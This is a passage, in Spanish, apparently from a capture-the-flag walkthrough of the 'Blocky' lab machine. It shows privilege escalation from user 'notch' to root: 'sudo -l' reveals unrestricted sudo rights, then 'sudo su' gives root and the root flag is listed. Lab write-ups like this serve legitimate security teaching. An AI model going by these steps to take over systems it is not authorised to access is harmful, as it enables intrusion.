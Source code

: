 
Ahora que se cuenta con acceso al equipo, se puede intentar revisar si el usuario cuenta con algún tipo de **privilegios** a nivel de **sudoers** con el comando `sudo -l`.
```bash
sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ 
```
{: .nolineno}


Y sorprendentemente, puede ejecutar cualquier comando como **root**, por lo que se cambia a ese usuario.
```bash
sudo su
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# ls /root
root.txt
root@Blocky:/home/notch# 
```
{: .nolineno}

















